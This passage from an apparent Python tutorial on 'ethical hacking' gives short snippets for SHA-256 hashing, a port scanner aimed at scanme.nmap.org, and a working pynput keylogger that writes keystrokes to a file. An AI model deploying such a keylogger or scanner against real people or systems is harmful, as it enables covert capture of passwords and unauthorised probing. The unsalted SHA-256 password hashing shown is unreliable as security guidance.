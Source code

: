 # **15. Cybersecurity and Ethical Hacking**
Python is widely used in **penetration testing** and **security research**.

### **15.1. Password Hashing**
```python
import hashlib

password = "securepassword"
hashed = hashlib.sha256(password.encode()).hexdigest()
print("Hashed password:", hashed)
```

### **15.2. Simple Port Scanner**
```python
import socket

target = "scanme.nmap.org"
ports = [21, 22, 80, 443]

for port in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket.setdefaulttimeout(1)
    
    result = s.connect_ex((target, port))
    if result == 0:
        print(f"Port {port} is open")
    s.close()
```

### **15.3. Basic Keylogger**
```python
from pynput import keyboard

def on_press(key):
    with open("keys.txt", "a") as file:
        file.write(f"{key} ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

### **Mini Project: Secure Login System**
- Store **hashed passwords**.
- Implement **multi-factor authentication (MFA)**.

---

# **Next Steps**
We can now:
1. **Expand Data Science (Pandas, NumPy, Deep Learning).**
2. **Build More Web Applications (Django REST API, Flask API).**
3. **Explore Ethical Hacking (Network Security, Encryption).**

---